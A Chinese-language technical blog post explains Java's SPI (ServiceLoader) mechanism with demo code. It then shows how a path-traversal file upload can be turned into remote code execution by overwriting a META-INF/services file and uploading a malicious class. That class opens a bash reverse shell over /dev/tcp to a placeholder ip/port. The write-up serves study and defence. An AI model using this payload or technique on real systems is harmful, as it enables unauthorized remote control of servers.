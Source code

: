 # SPI机制

>最开始接触是springboot写文件rce里面的charsets遇到了，然后发现yaml的反弹也是使用的SPI机制

SPI全称Service Provider Interface，是Java提供的一套用来被第三方实现或者扩展的API，或者换句话说，**SPI是一种服务发现机制** 

## demo

定义接口 SpiService.java

```java
package com.firebasky.spi;

public interface SpiService {
    public void hello();
}
```

实现接口的方法的类SpiServiceA.java (**需要注意SPI机制的实现类必须有一个无参构造方法**)

```java
package com.firebasky.spi;

public class SpiServiceA implements SpiService {
    public void hello() {
        System.out.println("SpiServiceA.Hello");
    }
}
```

SpiServiceB.java

```java
package com.firebasky.spi;

public class SpiServiceB implements SpiService {
    public void hello() {
        System.out.println("SpiServiceB.Hello");
    }
}
```

SpiTest

````java
package com.firebasky.spi;

import java.util.Iterator;
import java.util.ServiceLoader;

public class SpiTest {
    public static void main(String[] args) throws InterruptedException {
        try {
            init();
        } catch (Exception e) {
            System.out.println("error");
        }
    }
    public static void init(){
        ServiceLoader<SpiService> serviceLoader = ServiceLoader.load(SpiService.class);
        Iterator<SpiService> iterator = serviceLoader.iterator();
        while (iterator.hasNext()) {
            SpiService spiService = iterator.next();
            spiService.hello();
        }
    }
}
````

然后定义META-INF/services
![image-20211219220826826](https://user-images.githubusercontent.com/63966847/146678546-94e017c7-15a4-41f3-8082-4a0083c9b903.png)


然后run之后会输出

```
SpiServiceA.Hello
SpiServiceB.Hello
```

## 分析

也就是我们可以通过spi机制去获得实现接口的类并且实例化去调用方法。

调用**next方法**的时候，实际调用到的是，lookupIterator.nextService。它通过反射的方式，创建实现类的实例并返回。

![image-20211219221208548](https://user-images.githubusercontent.com/63966847/146678550-d158915b-fd15-4b20-a588-063ed76e7f8c.png)


![image-20211219221324358](https://user-images.githubusercontent.com/63966847/146678553-aede21be-261d-4077-9f21-a5ca8d60c4ec.png)


需要注意一点如何获得 **cn**这个变量勒，也就是spi实例化什么东西？这个其实是在 **META-INF/services/com.firebasky.spi.SpiService**中配置的。

## 新思路

那问题来了？

**环境存在路径穿越上传文件，会造成rce?**会的。

如何实现？

我们上传META-INF/services/com.firebasky.spi.SpiService文件并且覆盖其中的值，写入我们的恶意类的全类名比如：

```
com.firebasky.spi.evil
```

然后我们在target\classes\下上传我们的evil.class，然后让其在一次的执行spi的操作。就可以成功rce.

```java
#evil.java
package com.firebasky.spi;

import java.io.IOException;

public class evial implements SpiService{
    static {
        try{
            Runtime.getRuntime().exec(new String[]{"/bin/bash","-c","exec 5<>/dev/tcp/ip/port;cat <&5 | while read line; do $line 2>&5 >&5; done"});
        }catch (IOException e){
            try{
                Runtime.getRuntime().exec(new String[]{"cmd", "/c", "calc"});
            }catch (IOException ee){
            }
        }
    }
    @Override
    public void hello() {
        
    }
}
```

编译成class 之后上传到target\classes\

![image-20211219222014485](https://user-images.githubusercontent.com/63966847/146678561-9958bc94-f179-4440-97c4-fbdd2f7e03de.png)


在覆盖META-INF/services/com.firebasky.spi.SpiService

![image-20211219222049642](https://user-images.githubusercontent.com/63966847/146678565-b5a349de-0fa3-4285-ae4c-3ce8a893bae7.png)


之后执行一下SpiTest。
![image-20211219222131132](https://user-images.githubusercontent.com/63966847/146678572-60f7cfe5-32cf-4a40-9cca-b4a9d452d966.png)


其实也不是什么新思路,很多大师傅在实现写文件rce的时候就用到了,说不定ctf中可能遇到？？？

>参考： 
>
>https://www.cnblogs.com/xrq730/p/11440174.html
>
>https://www.jianshu.com/p/3a3edbcd8f24

